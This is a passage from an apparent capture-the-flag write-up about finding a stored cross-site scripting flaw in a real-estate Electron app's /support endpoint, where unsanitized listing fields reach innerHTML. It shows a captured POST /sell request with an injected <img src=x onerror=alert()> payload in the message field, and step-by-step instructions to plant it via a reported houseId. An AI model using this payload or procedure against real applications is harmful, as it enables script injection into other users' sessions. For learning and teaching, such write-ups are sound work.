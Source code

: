 This looked very interesting, it was making a request to the `/support` endpoint with the report Id we provided and the response is then directly passed to innerHTML (this can lead to xss if there is no sanization over user controllable input).

Here we can say on line [1], the msg is passed to the Dompurify santize function which take cares of the xss bug.But other variables aren't sanitized listing.houseId,listing.name,listing.price

If we can get full control over any of these variable we will have a xss bug:

```json
[
  {
    "price": 37855,
    "name": "6743 Impasse de Presbourg",
    "message": "Sed voluptatem itaque necessitatibus itaque aut et ut esse.",
    "sqm": 60,
    "image": "images/REL-221024.jpeg",
    "houseId": "b0Hapli2VJ",
    "msg": "xx"
  }
]
```


Request made when sell action is performed:

```
POST /sell HTTP/2
Host: relapi.flu.xxx
Content-Length: 117
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) REL/1.0.0 Chrome/94.0.4606.81 Electron/15.5.7 Safari/537.36
Content-Type: application/json
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US

{
  "houseId": "_yTPmi9bfl",
  "token": "61e6887048465eed383d6d9f5cd32c86",
  "message": "A commodi debitis ut.<img src=x onerror=alert()>",
  "price": "1"
}
```

The `houseId` is validated  and the `price` param value is converted to Integer so we can't put xss payload there. The `message` is the last option and it happily accepts our xss payload input.



Steps to create a report id which would have our xss payload:

1.Buy a house (if you don't buy anything, you won't have anything to sell)
2.Sell the house (this is where we will add our xss payload)
3.Report the `houseId` which we modified in *step 2*
